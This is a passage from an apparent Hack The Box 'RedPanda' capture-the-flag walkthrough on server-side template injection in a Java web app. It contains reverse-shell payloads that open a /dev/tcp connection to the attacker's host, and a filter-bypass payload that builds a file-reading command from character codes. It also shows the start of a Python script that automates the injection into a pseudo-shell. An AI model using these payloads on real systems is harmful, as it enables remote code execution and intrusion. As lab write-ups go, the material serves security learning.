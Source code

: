 <p align="center">
  <img src="/images/walkthrougshs/hackthebox/redpanda/2_0_test.png" width="90%"/>
</p>


I give a shot to multiple payloads trying to spawn a reverse shell, but some of the special characters were being filtered/banned as displayed by the website:

```java
*{T(java.lang.Runtime).getRuntime().exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.3/5454;cat <&5 | while read line; do \$line 2>&5 >&5; done")] as String[]).waitFor()}

*{T(java.lang.Runtime).getRuntime().exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.3/5454;cat <&5 | while read line; do \\".concat(T(java.lang.Character).toString(36)).concat("line 2>\\&5 >&5; done")] as String[]).waitFor()}

*{T(java.lang.Runtime).getRuntime().exec(["ls")] as String[]).waitFor()}
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/redpanda/2_1_banned.png" width="90%"/>
</p>


Finally I end up using the character concatenation to build the payload. Java will concatenate the different characters (provided in decimal to bypass any filter) building up the desired payload. For example, if we want to execute the cat command we will concatenate characters 99, 97 and 116 (ascii values for c, a and t) and so on.

```java
// cat /home/woodenk/user.txt

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}

// Result in the website: You searched for: d063ce1c7aed9b36aa5ffd08d3eb1946
```

To automate the process I got an script from GitHub and enhanced it, resulting the following python script to set a "pseudo-shell" and set all make all the SSTI payload design unoticeable for the user.


```python
#!/usr/bin/python3
from cmd import Cmd
import urllib.parse, argparse
import requests, re
from bs4 import BeautifulSoup

# Example command: python3 script.py -u http://10.10.11.170:8080/search

parser = argparse.ArgumentParser(description="Generate SSTI payloads for Java vulnerable apps")
parser.add_argument("-e","--url-encode", action="store_true", help="URL Encode")
parser.add_argument("-u","--url", type=str, required=True, help="Target URL")

args = parser.parse_args()
```